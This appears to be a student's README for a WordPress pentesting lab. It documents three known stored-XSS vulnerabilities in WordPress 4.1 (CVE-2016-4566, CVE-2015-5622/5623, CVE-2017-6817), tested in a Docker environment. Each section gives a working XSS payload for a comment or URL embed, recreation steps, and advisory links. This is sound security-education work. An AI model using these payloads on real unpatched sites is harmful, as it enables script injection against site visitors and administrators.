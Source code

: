 # Project 7 - WordPress Pentesting

> Time spent: 5+ hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Test Environment

Created virtual environment in Docker.
  - [ ] GIF Walkthrough: 
		<img src="docker-wpVSkali.gif" alt="docker-wpVSkali Walkthrough">
		
## Pentesting Report

### 1. WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME) - CVE-2016-4566
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (XSS)
    - Tested in version: 4.1
    - Fixed in version: 4.1.11 
  - [ ] GIF Walkthrough: 
		<img src="SOMExss.gif" alt="CVE-2016-4566 Walkthrough">
		
  - [ ] Steps to recreate: 
  
	1. As a logged in user, leaving a reply/comment to a post using the payload:
			
	2.		
			
			<button onclick="fire()">Click</button>
			<script>
			function fire() {
			open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
			setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
					}
			</script>	
			
	3. After this comment posts sucessfully, any user that comes across the post will see a clickable button within the comment. If that user clicks the button, the XSS attack will execute and attempt to download a malicious payload from the attack. 
			
	4. In the gif walkthrough, my browser extentions sucessfully blocks the attack from downloading the file, but a user without the proper safeguards would be prompted to download a file. 
			
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/a82a6c6f-1787-4adc-84dd-3151f1edfd06)
	- [Link 2: cve.mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566)
	- [Link 3: wordpress.org](https://wordpress.org/news/2016/05/wordpress-4-5-2/)
	- [Link 4: github/wordpress](https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8)
	- [Link 5: gist.github](https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)
### 2. WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.6
  - [ ] GIF Walkthrough: 
		<img src="AuthStoredXSS.gif" alt="Authenticated Stored XSS Walkthrough">
  - [ ] Steps to recreate: 
	
	1. As a logged in user, leaving a reply/comment to a post using the payload:
			
	2.		
			
			<a href='/wp-admin/' title="XSS" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(2)//'Hello World</a>	
			
	3. After this comment posts sucessfully, any user that comes to the page and mouses over the area will see an alert box demonstrating the xss attack. The alert box will keep popping up everytime the area is hovered over with the mouse cursor. 
  
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/0f027d7d-674b-4a63-9603-25ea68069c1d)
	- [Link 2: cve.mitre - 2015-5622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
	- [Link 3: cve.mitre - 2015-5623](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623)
	- [Link 4: wordpress](https://wordpress.org/news/2015/07/wordpress-4-2-3/)
	- [Link 5: twitter](https://twitter.com/klikkioy/status/624264122570526720)
	- [Link 6: klikki](https://klikki.fi/adv/wordpress3.html)
### 3. WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in URL Embeds
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.16
  - [ ] GIF Walkthrough: 
		<img src="URLembed.gif" alt="Authenticated Stored XSS Walkthrough">
  - [ ] Steps to recreate: 
	1. Post a link with an XSS attack. 
	2. 		
			http://localhost:8080/<svg onload=alert('XSS!')>
	3. On page load, the XSS executes.
  - [ ] References:
	- [Link 1: wpscan](https://wpscan.com/vulnerability/3ee54fc3-f4b4-4c35-8285-9d6719acecf0)
	- [Link 2: cve.mitre - 2017-6817](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817)
    - [Link 3: wordpress](https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/)
    - [Link 4: github](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
    - [Link 5: blog.sucuri.net](https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html)


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- [wpVSkali](https://github.com/0xrutvij/wpVSkali)

GIFs created with [ScreenToGif](https://www.screentogif.com).

## License

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
